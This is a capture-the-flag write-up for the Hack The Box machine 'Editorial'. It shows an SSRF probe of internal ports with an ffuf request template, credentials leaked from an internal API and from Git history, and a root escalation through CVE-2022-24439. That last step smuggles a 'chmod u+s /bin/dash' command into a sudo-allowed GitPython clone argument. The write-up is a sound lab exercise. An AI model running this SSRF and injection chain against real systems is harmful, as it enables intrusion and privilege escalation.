

---
tags:
  - hack
  - linux
---
# HTB: [Editorial](https://app.hackthebox.com/machines/Editorial)

## Summary

> [!tip]- Summary with Spoilers
> - This machine included a fun SSRF exercise to reveal credentials leaked from an internal API.
> - After gaining initial access, I retrieved further credentials from Git history to pivot to the `prod` user.
> - Privilege escalation was achieved by exploiting a `sudo` misconfiguration, allowing execution of a Python script for `root` access via [CVE-2022-24439](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858).

## Services

### TCP

- Target: `editorial.htb 10.10.11.20`
- Command: `nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oA nmap_tcp-editorial.htb editorial.htb

#### 22/tcp-ssh `OpenSSH` `8.9p1 Ubuntu 3ubuntu0.7` `(Ubuntu Linux; protocol 2.0)`

```text
__ssh-hostkey:
  256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
```

#### 80/tcp-http `nginx` `1.18.0` `(Ubuntu)`

```text
__http-title:
Editorial Tiempo Arriba
__http-server-header:
nginx/1.18.0 (Ubuntu)
__http-methods:
  Supported Methods: GET HEAD OPTIONS
```

Page is for a book-publishing company or something.

The `/upload` page is interesting:



I test with a 404 url of `10.10.14.21/x.jpg` and the server attempts to retrieve it:

Interestingly it doesn't fail, it just creates a file in `/uploads` called `5e0331bb-eff4-47ea-bea2-f6da57e2e62c`.

When I look at the contents of the file, it looks like the 404 message from my server:

```html
<!DOCTYPE HTML>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 404</p>
        <p>Message: File not found.</p>
        <p>Error code explanation: 404 - Nothing matches the given URI.</p>
    </body>
</html>
```

Here's the request coming back from the target:

```http
$ nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.20] 52134
GET /foo.jpg HTTP/1.1
Host: 10.10.14.21:8888
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

Since I can see the results of the HTTP request in the "image" file, I thought maybe I could fuzz for `localhost` ports. So, I used this request:

```http
$ cat req
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------230055699114989147201318430837
Content-Length: 362
Origin: http://editorial.htb
DNT: 1
Connection: keep-alive
Referer: http://editorial.htb/upload

-----------------------------230055699114989147201318430837
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------230055699114989147201318430837
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------230055699114989147201318430837--
```

Note the placement of `FUZZ` in the above request template.

Then I generated a list of all ports:

```console
$ seq 1 65536 > ports.txt
```

And by running `fuff` I hit on port 5000:

```console
$ ffuf -request req -w ports.txt -debug-log db.txt -X POST -request-proto http -v -ac

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://editorial.htb:80/upload-cover
 :: Wordlist         : FUZZ: /home/e/htb-editorial/ports.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : DNT: 1
 :: Header           : Connection: keep-alive
 :: Header           : Origin: http://editorial.htb
 :: Header           : Referer: http://editorial.htb/upload
 :: Header           : Host: editorial.htb:80
 :: Header           : Accept: */*
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Content-Type: multipart/form-data; boundary=---------------------------230055699114989147201318430837
 :: Data             : -----------------------------230055699114989147201318430837
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------230055699114989147201318430837
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------230055699114989147201318430837--

 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 131ms]
| URL | http://editorial.htb:80/upload-cover
    * FUZZ: 5000
```

Now that I know the internal port, I can access the internal API using the same technique as above. Results from that request are in JSON:

```json
$ cat 9c39f5a9-357a-4385-be32-8d10360b6b33 |jq
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

## Remote Code Execution

An API endpoint leaks valid login credentials, `http://127.0.0.1:5000/api/latest/metadata/messages/authors`:

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

That password is reused for the shell account:

```console
$ ssh dev@editorial.htb
Warning: Permanently added 'editorial.htb' (ED25519) to the list of known hosts.
dev@editorial.htb's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)
...
```

## Privilege Escalation

There's another user on the target, `prod`.

```console
dev@editorial:~$ find / -user prod 2>/dev/null
/home/prod
/var/crash/_opt_wsgi.py.1000.crash
```

Unfortunately I can't read that crash dump:

```console
dev@editorial:~$ ls -l /var/crash/_opt_wsgi.py.1000.crash
-rw-r----- 1 prod prod 27187 Jan 31  2023 /var/crash/_opt_wsgi.py.1000.crash
```

But, I find the `prod` password in Git history:

```console
dev@editorial:~/apps$ git log
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev

    * To use development environment.

commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info

    * It (will) contains internal info about the editorial, this enable
       faster access to information.

commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:48:43 2023 -0500

    feat: create editorial app

    * This contains the base of this project.
    * Also we add a feature to enable to external authors send us their
       books and validate a future post in our editorial.
dev@editorial:~/apps$ git diff 1e8 |grep passw
fatal: ambiguous argument '1e8': unknown revision or path not in the working tree.
Use '--' to separate paths from revisions, like this:
'git <command> [<revision>...] -- [<file>...]'

dev@editorial:~/apps$ git diff 1e84a |grep passw
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
```

```console
dev@editorial:/$ su - prod
Password:
prod@editorial:~$ id
uid=1000(prod) gid=1000(prod) groups=1000(prod)
```

```console
prod@editorial:~$ sudo -l
[sudo] password for prod:
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Here is `/opt/internal_apps/clone_changes/clone_prod_change.py`:

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

It is vulnerable to [CVE-2022-24439](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858):

```console
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/dash'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c chmod% u+s% /bin/dash new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:/opt/internal_apps/clone_changes$ ls -l /bin/dash
-rwsr-xr-x 1 root root 125688 Mar 23  2022 /bin/dash
prod@editorial:/opt/internal_apps/clone_changes$ /bin/dash -p
# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
# cat /root/root.txt
0565e67...
```
